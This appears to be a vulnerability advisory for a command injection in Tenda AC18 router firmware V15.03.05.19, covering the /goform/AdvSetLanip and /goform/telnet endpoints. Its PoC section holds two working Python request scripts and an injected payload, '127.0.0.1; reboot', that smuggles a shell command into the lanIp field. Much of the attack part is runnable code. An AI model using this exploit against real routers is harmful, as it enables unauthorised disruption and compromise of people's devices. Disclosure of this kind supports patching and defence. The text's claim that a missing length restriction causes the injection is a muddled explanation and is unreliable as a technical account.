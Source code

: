 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a command injection vulnerability in the `/goform/AdvSetLanip` url. The `s1` variable receives the `lanIp` parameter from a POST request and is stored in the configuration item named `lan.ip` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_181207.png)

`lan.ip` configuration item can  be retrieved through the GetValue function in the `/goform/telnet` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to command injection.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_181521.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = "127.0.0.1; reboot"

data = {"lanIp":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/telnet"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)